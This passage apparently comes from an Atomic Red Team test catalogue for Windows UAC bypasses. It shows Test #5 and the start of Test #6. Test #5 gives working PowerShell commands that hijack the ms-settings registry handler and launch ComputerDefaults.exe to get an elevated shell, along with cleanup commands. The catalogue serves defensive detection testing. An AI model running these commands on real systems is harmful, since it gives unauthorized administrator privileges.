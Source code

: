 #### Cleanup Commands:

```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #5 - Bypass UAC using ComputerDefaults (PowerShell)

PowerShell code to bypass User Account Control using ComputerDefaults.exe on Windows 10
Upon execution administrative command prompt should open

**Supported Platforms:** Windows

**auto_generated_guid:** 3c51abf2-44bf-42d8-9111-dc96ff66750f

#### Inputs:

| Name              | Description                       | Type | Default Value                           |
| ----------------- | --------------------------------- | ---- | --------------------------------------- |
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

#### Cleanup Commands:

```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #6 - Bypass UAC by Mocking Trusted Directories

Creates a fake "trusted directory" and copies a binary to bypass UAC. The UAC bypass may not work on fully patched systems
Upon execution the directory structure should exist if the system is patched, if unpatched Microsoft Management Console should launch

**Supported Platforms:** Windows

**auto_generated_guid:** f7a35090-6f7f-4f64-bb47-d657bf5b10c1
